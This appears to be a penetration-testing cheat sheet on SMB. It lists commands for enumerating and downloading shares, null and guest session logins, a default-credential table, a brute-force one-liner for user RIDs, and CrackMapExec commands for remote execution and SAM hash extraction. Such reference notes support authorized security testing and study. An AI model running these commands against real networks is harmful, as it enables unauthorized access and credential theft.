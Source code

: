 # SMB

## **Introduction**

> * Server Message Block (SMB) is a client-server protocol that regulates access to files and entire directories and other network resources.
> * The SMB protocol enables the client to communicate with other participants in the same network to access files or services shared with it on the network.
> * An SMB server can provide arbitrary parts of its local file system as shares.
> * Access rights are defined by Access Control Lists (ACL).
> * SMB runs on port 445 TCP by default

***

## **SMB Shares Enumeration**

* Run [Snaffler](https://github.com/SnaffCon/Snaffler) _from a Windows host_ to find useful data in shares:\
  `.\Snaffler.exe -d INLANEFREIGHT.LOCAL -s -v data`
* Run [Scavenger](https://github.com/SpiderLabs/scavenger/tree/master) _from a Linux host_ to find useful data in shares:\
  `python3 ./scavenger.py smb -t 10.0.0.10 -u administrator -p Password123 -d testdomain.local`
* Shares enumeration from _Windows:_\
  `net view \MachineName /all`
* CME Shares Enumeration from _Linux_:\
  `sudo crackmapexec smb 172.16.5.5 -u validuser -p validpassword --shares`
* CME Share Spidering from _Linux_:\
  `sudo crackmapexec smb 172.16.5.5 -u validuser -p validpassword -M spider_plus --share sharename`
* SMBMap Share Enumeration from _Linux_:\
  `smbmap -u validuser -p validpassword -d INLANEFREIGHT.LOCAL -H 172.16.5.5`
* SMBMap Share Recursive Directory Listing from _Linux_\
  `smbmap -u validuser -p validpassword -d INLANEFREIGHT.LOCAL -H 172.16.5.5 -R SHARENAME --dir-only`
* Download Shares Recursively from _Linux_:\
  `smbget -u guest -R smb://10.129.8.111/Development/`

***

## **SMB NULL Session, Guest and Common Credentials Authentication**

* **Guest Authentication:** `enum4linux -a -u "guest" -p "" <DC IP>`
* **Guest Authentication:** `smbmap -u "guest" -p "" -P 445 -H <DC IP>`
* **Guest Authentication:** `smbclient -U '%' -L //<DC IP> && smbclient -U 'guest%' -L //`
* **NULL Session:** `smbclient -N -L //<FQDN/IP>`
* **NULL Session:** `crackmapexec smb <FQDN/IP> --shares -u '' -p ''`
* **NULL Session:** `smbmap -u "" -p "" -P 445 -H <DC IP>`
* **NULL Session:** `enum4linux -a -u "" -p "" <DC IP>`
* Check for common SMB credentials, as listed below

***

## **Common SMB Credentials**

Source: [https://book.hacktricks.xyz/network-services-pentesting/pentesting-smb#possible-credentials](https://book.hacktricks.xyz/network-services-pentesting/pentesting-smb#possible-credentials)

| Common Username(s)   | Common Password                         |
| -------------------- | --------------------------------------- |
| (blank)              | (blank)                                 |
| guest                | (blank)                                 |
| Administrator, admin | (blank), password, administrator, admin |
| arcserve             | arcserve, backup                        |
| tivoli, tmersrvd     | tivoli, tmersrvd, admin                 |
| backupexec, backup   | backupexec, backup, arcada              |
| test, lab, demo      | password, test, lab, demo               |

***

## **Enumerating SMB via RPC Client**

The rpcclient utility offers us many different requests with which we can execute specific functions on the SMB server to get information.

| Command (Query) | Description                                                        |
| --------------- | ------------------------------------------------------------------ |
| srvinfo         | Server information.                                                |
| enumdomains     | Enumerate all domains that are deployed in the network.            |
| querydominfo    | Provides domain, server, and user information of deployed domains. |
| netshareenumall | Enumerates all available shares.                                   |
| netsharegetinfo | Provides information about a specific share.                       |
| enumdomusers    | Enumerates all domain users.                                       |
| queryuser       | Provides information about a specific user.                        |

**Bruteforcing user RIDs:**

* Oneliner:\
  `for i in $(seq 500 1100);do rpcclient -N -U "" 10.129.14.128 -c "queryuser 0x$(printf '%x\n' $i)" | grep "User Name\|user_rid\|group_rid" && echo "";done`
* Impacket Samrdump: `samrdump.py 10.129.14.128`

***

## **CrackMapExec (CME) Utilities**

| Description                                            | Command                                                                                              |
| ------------------------------------------------------ | ---------------------------------------------------------------------------------------------------- |
| Run commands with CrackMapExec                         | `crackmapexec smb 10.10.110.17 -u Administrator -p 'Password123!' -x 'whoami' --exec-method smbexec` |
| Enumerate logged on users with CrackMapExec            | `crackmapexec smb 10.10.110.0/24 -u administrator -p 'Password123!' --loggedon-users`                |
| Extract Hashes from the SAM Database with CrackMapExec | `crackmapexec smb 10.10.110.17 -u administrator -p 'Password123!' --sam`                             |
| Enumerate Password Policies                            | `crackmapexec smb 172.16.5.5 -u validuser -p validpass --pass-pol`                                   |
